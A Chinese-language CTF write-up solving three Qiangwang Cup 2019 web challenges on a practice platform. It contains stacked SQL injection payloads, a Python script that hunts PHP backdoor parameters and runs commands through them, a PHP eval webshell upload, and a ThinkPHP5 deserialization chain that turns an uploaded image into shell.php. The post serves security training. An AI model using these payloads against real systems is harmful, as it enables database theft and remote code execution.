

+++
title = "强网杯2019"
slug = "qiangwang-cup-2019"
description = "刷"
date = "2024-08-30T11:54:29"
lastmod = "2024-08-30T11:54:29"
image = ""
license = ""
categories = ["复现"]
tags = ["mysql"]
+++

# [强网杯 2019]随便注

一个堆叠注入

```
1';show database();#

1';show tables;#

1';show columns from `1919810931114514`;
```

这里有三个新姿势，就是

## handler

```sql
# 打开一个表并取别名
handler `1919810931114514` open as `a`; 
# 查看第一行
handler `a` read first;
# 查看当前行的下一行
handler `a` read next;
```

所以最后的`payload`就是

```sql
1';handler `1919810931114514` open as `s`;handler `s` read first;#
```

如果想多看行数的话直接加就可以了(写一下避免忘记怎么写)

```sql
1';handler `1919810931114514` open as `s`;handler `s` read first;handler `s` read next;#
```

## 预编译

> set 进行变量的设置
>
> prepare from 准备一个sql语句也就是预编译
>
> execute 执行sql语句

但是环境中其实是把set过滤了的，这里我们大小写混写绕过

```sql
select * from `1919810931114514`
用16进制绕过
0x73656c656374202a2066726f6d20603139313938313039333131313435313460
```

```sql
1';SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare love from @a;execute love;#
```

## rename and alter

对表名和库名进行重命名,导致原来的`words`变为现在的`1919810931114514`

再把列名也改了，再次显示信息的时候就不会有限制

```sql
1';rename table words to words2;rename table `1919810931114514` to words;alter table words change flag id varchar(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;desc words;#

1' or 1=1#;
```

# [强网杯 2019]高明的黑客

进来之后先下载一个文件`/www.tar.gz`

进行解压之后会发现有一大堆的`php`文件,观察之后发现其实是有后门的，但是太多了不知道哪个有效，这里写个脚本，帮我们处理一下

```python
import os
import requests
import re
import threading
import time

print('开始时间：  '+  time.asctime( time.localtime(time.time()) ))
s1=threading.Semaphore(100)                                            #这儿设置最大的线程数
filePath = r"D:/PHPstudy/phpstudy_pro/WWW/www/src"
os.chdir(filePath)                                                    #改变当前的路径
requests.adapters.DEFAULT_RETRIES = 5                                #设置重连次数，防止线程数过高，断开连接
files = os.listdir(filePath)
session = requests.Session()
session.keep_alive = False                                             # 设置连接活跃状态为False
def get_content(file):
    s1.acquire()                                                
    print('trying   '+file+ '     '+ time.asctime( time.localtime(time.time()) ))
    with open(file,encoding='utf-8') as f:                            #打开php文件，提取所有的$_GET和$_POST的参数
            gets = list(re.findall('\$_GET\[\'(.*?)\'\]', f.read()))
            posts = list(re.findall('\$_POST\[\'(.*?)\'\]', f.read()))
    data = {}                                                        #所有的$_POST
    params = {}                                                        #所有的$_GET
    for m in gets:
        params[m] = "echo 'xxxxxx';"
    for n in posts:
        data[n] = "echo 'xxxxxx';"
    url = 'http://127.0.0.1/www/src/'+file
    req = session.post(url, data=data, params=params)            #一次性请求所有的GET和POST
    req.close()                                                # 关闭请求  释放内存
    req.encoding = 'utf-8'
    content = req.text
    #print(content)
    if "xxxxxx" in content:                                    #如果发现有可以利用的参数，继续筛选出具体的参数
        flag = 0
        for a in gets:
            req = session.get(url+'?%s='%a+"echo 'xxxxxx';")
            content = req.text
            req.close()                                                # 关闭请求  释放内存
            if "xxxxxx" in content:
                flag = 1
                break
        if flag != 1:
            for b in posts:
                req = session.post(url, data={b:"echo 'xxxxxx';"})
                content = req.text
                req.close()                                                # 关闭请求  释放内存
                if "xxxxxx" in content:
                    break
        if flag == 1:                                                    #flag用来判断参数是GET还是POST，如果是GET，flag==1，则b未定义；如果是POST，flag为0，
            param = a
        else:
            param = b
        print('找到了利用文件： '+file+"  and 找到了利用的参数：%s" %param)
        print('结束时间：  ' + time.asctime(time.localtime(time.time())))
    s1.release()

for i in files:                                                            #加入多线程
   t = threading.Thread(target=get_content, args=(i,))
   t.start()
```

而且由于终端看不完全命令我直接使用的命令打印结果到最后了

```
python 1.py > 1.txt
```

要改到相应路径才能够使用哦



**找到了利用文件： xk0SzyKwfzw.php and 找到了利用的参数：Efa5BVG**

```
http://375f29e8-08c6-4b57-a224-8bf2d3c26108.node5.buuoj.cn:81/xk0SzyKwfzw.php?Efa5BVG=ls%20/

http://375f29e8-08c6-4b57-a224-8bf2d3c26108.node5.buuoj.cn:81/xk0SzyKwfzw.php?Efa5BVG=tac%20/f*
```

# [强网杯 2019]Upload

注册登录进入之后发现是一个TP框架,可以发现文件上传,我们扫描后台看看

```
[200][image/x-icon][1.12kb] http://e7dea131-214f-4acc-bddc-862f63192773.node5.buuoj.cn/favicon.ico    
[200][text/plain][24.00b] http://e7dea131-214f-4acc-bddc-862f63192773.node5.buuoj.cn/robots.txt       
[200][text/html][287.00b] http://e7dea131-214f-4acc-bddc-862f63192773.node5.buuoj.cn/upload/          
[200][application/javascript][5.56kb] http://e7dea131-214f-4acc-bddc-862f63192773.node5.buuoj.cn/static/js/easyResponsiveTabs.js
[200][application/octet-stream][24.02mb] http://e7dea131-214f-4acc-bddc-862f63192773.node5.buuoj.cn/www.tar.gz 
```

上传一个图片马试试

```
Request:

POST /index.php/upload HTTP/1.1
Host: e7dea131-214f-4acc-bddc-862f63192773.node5.buuoj.cn
Content-Length: 306
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://e7dea131-214f-4acc-bddc-862f63192773.node5.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarycvD1OHO2AE1YcziF
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://e7dea131-214f-4acc-bddc-862f63192773.node5.buuoj.cn/index.php/home
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: user=YTo1OntzOjI6IklEIjtpOjM7czo4OiJ1c2VybmFtZSI7czozOiJiYW8iO3M6NToiZW1haWwiO3M6MTk6ImJhb3pvbmd3aUBnbWFpbC5jb20iO3M6ODoicGFzc3dvcmQiO3M6MzI6ImUxMGFkYzM5NDliYTU5YWJiZTU2ZTA1N2YyMGY4ODNlIjtzOjM6ImltZyI7Tjt9
Connection: close

------WebKitFormBoundarycvD1OHO2AE1YcziF
Content-Disposition: form-data; name="upload_file"; filename="m.jpg"
Content-Type: image/jpeg

<?=eval($_POST[1]);?>
------WebKitFormBoundarycvD1OHO2AE1YcziF
Content-Disposition: form-data; name="上传"

提交
------WebKitFormBoundarycvD1OHO2AE1YcziF--
```

上传了一个`jpg`文件之后发现好像是没有成功但是发现了`cookie`是一个反序列化内容

后来去网上随便找了一个图片,利用`010editor`加入一句话木马，上传成功，但是并不能正确的解析，通过检查得到图片路径`http://1f884d90-8fa1-4247-855d-96bb5cfe94f5.node5.buuoj.cn/upload/065831472858248584ff4993846d5065/e22748cd53f486be66e762f69762791a.png`

但是我们必须要让`png`文件解析为`php`才行

发现是tp5的链子，网上找个现成的(~~菜鸡不会~~)

```php
<?php
namespace app\web\controller;

class Register{
    public $checker;
    public $registed;
}

class Profile{
    public $checker;
    public $filename_tmp;
    public $filename;
    public $upload_menu;
    public $ext;
    public $img;
    public $except;
}

$register = new Register();
$register->registed=0;

$profile = new Profile();
$profile->except=array("index"=>"upload_img");
$profile->checker=0;
$profile->ext=1;
$profile->filename_tmp="./upload/065831472858248584ff4993846d5065/32d3ca5e23f4ccf1e4c8660c40e75f33.png";
$profile->filename="./upload/shell.php";

$register->checker=$profile;

echo urlencode(base64_encode(serialize($register)));
```

最后发现一直有这个报错

```
Parse error: syntax error, unexpected ';' in /var/www/html/public/upload/shell.php on line 135
```

也就是说我本身图片里面有分号会干扰我，那算了，我直接用图片头绕过吧

```a.png
GIF89a
<?php eval($_POST[a]);?>
```

最后打入，访问`/upload/shell.php`

成功`getshell`

